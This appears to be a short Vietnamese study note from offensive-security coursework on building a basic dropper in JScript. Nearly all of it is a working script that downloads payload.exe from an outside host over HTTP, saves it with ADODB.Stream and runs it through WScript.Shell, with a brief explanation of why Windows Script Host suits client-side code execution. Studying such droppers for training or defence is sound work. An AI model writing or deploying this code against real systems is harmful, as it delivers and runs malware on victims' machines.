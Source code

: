 ## 4.1 Creating a basic dropper in Jscript
<p>
Jscript là một phương ngữ JavaScript được phát triển và sở hữu bởi Microsoft. 
Nó có thể được thực thi bên ngoài trình duyệt thông qua Windows Script Host thứ có thể thực thi các tập lệnh bằng nhiều ngôn ngữ khác nhau. 
Nó không phải tuân theo bất kỳ hạn chế bảo mật nào -> ta có thể sử dụng nó làm vector thực thi mã bên client mà không cần khai thác bất kỳ lỗ hổng nào
</p>

1. basic-call-msfshell.js
```
//  launching cmd.exe through ActiveX
var url = "http://10.101.101.66/uploads/payload.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

// HTTP GET request
Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{ 
    var Stream = WScript.CreateObject('ADODB.Stream'); // creatting a Stream object
    
    // writing the Stream object
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("payload.exe", 2); // "2" to force a file overwrite
    Stream.Close();
} 

var r = new ActiveXObject("WScript.Shell").Run("payload.exe");
```







end.





